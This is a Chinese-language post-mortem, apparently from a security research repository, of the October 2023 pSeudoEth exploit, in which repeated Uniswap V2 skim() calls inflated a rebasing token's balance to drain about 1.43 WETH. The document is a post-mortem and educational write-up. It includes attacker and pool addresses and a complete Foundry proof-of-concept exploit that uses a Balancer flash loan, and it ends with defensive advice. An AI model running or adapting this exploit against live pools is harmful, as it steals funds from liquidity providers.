




# pSeudoEth@priceManipulation

`pSeudoEth`是一种ERC20代币，他的`balanceOf()`并不是恒定的，随着市场变动。有黑客发现他实现的逻辑有问题，然后通过uniswap的池子进行价格操纵，拿走了池子中的`pSeudoEth`。

- 时间：2023-10-08 10:20:59 (UTC)
- 损失金额：1.43 WETH (~$2.3k)
- twitter
  - twitter1: https://twitter.com/CertiKAlert/status/1710979615164944729
  - twitter2: https://twitter.com/ImmuneBytes/status/1711345757687816416


## 交易 

- 攻击事件hash：[0x4ab68b21799828a57ea99c1288036889b39bf85785240576e697ebff524b3930](https://etherscan.io/tx/0x4ab68b21799828a57ea99c1288036889b39bf85785240576e697ebff524b3930)
- 黑客地址：[0xea75AeC151f968b8De3789CA201a2a3a7FaeEFbA](https://etherscan.io/address/0xea75aec151f968b8de3789ca201a2a3a7faeefba)
- 黑客用来攻击的合约地址：[0xf88D1D6D9DB9A39Dbbfc4B101CECc495bB0636F8](https://etherscan.io/address/0xf88d1d6d9db9a39dbbfc4b101cecc495bb0636f8)
- 池子：[0x2033B54B6789a963A02BfCbd40A46816770f1161](https://etherscan.io/address/0x2033b54b6789a963a02bfcbd40a46816770f1161)
- 代币地址（未开源）：[0x62aBdd605E710Cc80a52062a8cC7c5d659dDDbE7](https://etherscan.io/address/0x62abdd605e710cc80a52062a8cc7c5d659dddbe7)

## 资金流向



## 攻击过程







## 攻击详细分析

从攻击过程可以看出，闪电贷只是用来获取启动资金。黑客就做了三个操作：WETH换成pETH，不断调用池子的`skim()`方法，pETH换成WETH，做完这三个操作，手头上的WETH就变多了，还款闪电贷获利。

不断的调用`skim()`就可以实现价格操纵，我们来看看`skim()`是干啥的：将池子中比`_reserve`多的币发给`to`地址，这个是用来让池子正常运作的，因为uniswap的`swap()`会比较`balanceOf()`和`_reserve`来维持k值不变，在有人“捐赠”代币到池子就会使池子暂时DoS，因此有这个方法将多余的代币转走。

> 这个方法任何人都可以调用，只要池子有多余的代币，就可以拿走，当然普通人是搞不到的，因为很多机器人实时在监控着池子

```solidity
    // force balances to match reserves
    function skim(address to) external lock {
        address _token0 = token0; // gas savings
        address _token1 = token1; // gas savings
        _safeTransfer(_token0, to, IERC20(_token0).balanceOf(address(this)).sub(reserve0));
        _safeTransfer(_token1, to, IERC20(_token1).balanceOf(address(this)).sub(reserve1));
    }
    function _safeTransfer(address token, address to, uint value) private {
        (bool success, bytes memory data) = token.call(abi.encodeWithSelector(SELECTOR, to, value));
        require(success && (data.length == 0 || abi.decode(data, (bool))), 'UniswapV2: TRANSFER_FAILED');
    }
```

可以看出，调用了`skim()`之后会调用token的`transfer()`。但是因为pETH的合约没有开源，我们无法查看他的`transfer()`的具体实现。

但是，其攻击逻辑和这篇[文章](https://medium.com/@Ancilia/the-uniswap-skim-token-balance-attack-b1399943d560)的如出一辙。我们可以推断，这个pETH的`transfer()`调用会影响类如`_totalSupply`这种变量，`balanceOf()`受到这个变量的影响，价格会波动！并且其`transfer()`没有检验发送者和接收者的地址，则可以不断调用`transfer()`使得`_totalSupply`无限制的增大，进而使得我们拥有的pETH增多。

但是，池子中的`_reserve`不变，则币对价格不变，我们手头上的pETH经过`balanceOf()`获得的余额增多，则我们可以用pETH在池子中换取更多的代币。类似的原理可以查看这个[文章](https://maxwelldulin.com/Resources/1110)。

## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "./interface.sol";

contract ContractTest is Test {
    IWETH WETH = IWETH(payable(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2));
    IERC20 pEth = IERC20(0x62aBdd605E710Cc80a52062a8cC7c5d659dDDbE7);
    IBalancerVault Balancer = IBalancerVault(0xBA12222222228d8Ba445958a75a0704d566BF2C8);
    IUniswapV2Router UniRouter = IUniswapV2Router(payable(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D));
    IUniswapV2Pair UNIPair = IUniswapV2Pair(0x2033B54B6789a963A02BfCbd40A46816770f1161);
    uint amount = 51_970_861_731_879_316_502_999;

    function setUp() public {
        vm.createSelectFork("mainnet", 18_305_132 - 1);
        vm.label(address(WETH), "WETH");
        vm.label(address(Balancer), "Balancer");
        vm.label(address(UniRouter), "Uniswap V2: Router");
        vm.label(address(UNIPair), "Uniswap V2: pEth");
    }

    function testExploit() external {
        WETH.approve(address(UniRouter), type(uint256).max);
        pEth.approve(address(UniRouter), type(uint256).max);

        uint startWETH = WETH.balanceOf(address(this));
        console.log("Before Start: %d WETH", startWETH);
        address[] memory tokens = new address[](1);
        tokens[0] = address(WETH);
        uint[] memory amounts = new uint[](1);
        amounts[0] = amount;
        Balancer.flashLoan(address(this), tokens, amounts, "");

        uint intRes =  WETH.balanceOf(address(this))/1 ether;
        uint decRes =  WETH.balanceOf(address(this)) - intRes * 1e18;
        console.log("Attack Exploit: %s.%s WETH", intRes, decRes);
    }

    function receiveFlashLoan(
        address[] memory tokens,
        uint256[] memory amounts,
        uint256[] memory feeAmounts,
        bytes memory userData
    ) external {
        address[] memory path = new address [](2);
        (path[0], path[1]) = (address(WETH), address(pEth));
        UniRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            amounts[0], 0, path, address(this), type(uint).max);
        uint pEth_amount = pEth.balanceOf(address(this));
        pEth.transfer(address(UNIPair), pEth_amount);

        for(uint i=0; i<10; i++){
            UNIPair.skim(address(UNIPair));
        }

        (path[0], path[1]) = (address(pEth), address(WETH));
        pEth_amount = pEth.balanceOf(address(this));
        UniRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            pEth_amount, 0, path, address(this), type(uint).max);

        WETH.transfer(address(Balancer), amount);
    }
}
```

## 建议

- 如果代币的balanceOf()是魔改的，余额会随着市场而变动，那么需要非常注意实现！其中一种漏洞就是transfer()发送者和接收者没有校验不能相同
- 魔改的代币需要时刻注意


